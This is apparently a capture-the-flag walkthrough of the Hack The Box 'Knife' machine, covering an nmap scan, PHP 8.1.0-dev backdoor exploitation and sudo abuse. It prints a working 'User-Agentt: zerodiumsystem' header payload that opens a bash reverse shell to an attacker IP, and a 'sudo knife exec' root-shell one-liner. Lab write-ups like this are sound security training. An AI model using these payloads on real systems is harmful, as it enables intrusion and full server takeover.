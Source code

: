 ![](Images/E1wmNvPWYAIqm7n.jpg)
What we can learn from this machine
* Enumeration
* Burp Suite
* PHP Vulnerability
* Ruby - (Knife)

Let's start with a nmap scan. 
```
# Nmap 7.91 scan initiated Wed Jun  9 10:33:27 2021 as: nmap -sC -sV -A -Pn -oN scans/nmap-output 10.10.10.242
Nmap scan report for 10.10.10.242
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun  9 10:33:51 2021 -- 1 IP address (1 host up) scanned in 23.98 seconds
```
Looks like we got a port 22 and 80 open. Let's see what is in our website. Here I'm using **wappalyzer** extention. You can also use nikto to do that. 

![](Images/web.png)

Hmm! It is a simple site with no clickable elements. We can see that PHP version is 8.1.0 which is vulnerable to **user agentt RCE**.

* Here is the exploitdb link : https://www.exploit-db.com/exploits/49933

But I try to use that python script exploitdb gives but when we getting into the root user. It cause some promblems. But don't lose your hope. You can use the **burp suit** to do our dirty work.

![](Images/exploit-script.png)

If you look into that python script that exploitdb gives you can see this command in **line 17**. Now we have a little idea what is that script doing. Let's do that process in burpsuit. 
```bash
User-Agentt: zerodiumsystem("/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.0/6199 0>&1'");
```
![](Images/burp.png)

You can use burpsuit to get shell like this.Unfortunately I use our python script in first place to get user flag. Don't use this way use burpsuit to get to our user. If you choose script this will happen. 

```bash
┌─[✗]─[visith@parrot]─[~/CTF/htb/knife]
└──╼ $python3 exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ whoami 
james
$ find / -type f -name user.txt 2>/dev/null
/home/james/user.txt            
$ cat /home/james/user.txt
***************************
```
You can successfully get a **user.txt** but you can't get into any directory. Shell not functional. 

Let's get to root. After any of scripts running like linpeas. I use **sudo -l** here what I found. 

```bash
$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
We can see that we can run /usr/bin/knife using sudo perms without a password. Checking knife online, it is an automation tool by chef. 

* You can check the documentation here : https://docs.chef.io/workstation/knife/

You can use to **sudo knife** list all possible commands we can run with knife. Among them this caught my eyes. 

![](Images/exec.png)

The one **exec**, in particular, can execute code using the Ruby library. This documentation help me with the shell script.

http://thelazylog.com/executing-shell-script-from-ruby-code/

This was my shell script :
```bash
sudo knife exec -E "system('/bin/sh -i')"
```
After we execute it we can get the root user like this.

```bash
james@knife:/$ sudo knife exec -E "system('/bin/sh -i')"
sudo knife exec -E "system('/bin/sh -i')"
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cd root
# ls
delete.sh
root.txt
snap
# cat root.txt
*************************************
```

You Pwn the knife machine !! 

Thx for reading

![](../Armageddon/Images/giphy.gif)